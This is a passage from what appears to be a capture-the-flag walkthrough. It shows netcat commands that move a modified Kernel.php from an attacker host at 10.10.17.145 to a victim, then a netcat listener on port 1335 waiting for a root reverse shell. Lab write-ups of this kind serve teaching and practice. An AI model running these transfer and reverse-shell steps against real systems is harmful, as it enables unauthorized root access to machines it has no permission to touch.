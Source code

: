4. Transfer the modified one back to victim
- On Attacker
```
nc -l -p 4444 < Kernel.php
```

![](./IMG/51.png)

- On Victim
```
nc -w 3 10.10.17.145 4444 > Kernel.php
```

![](./IMG/52.png)

- Execute nc to listen on port 1335, and wait for a while.
- Then we can get the root shell

![](./IMG/53.png)
## Reference 

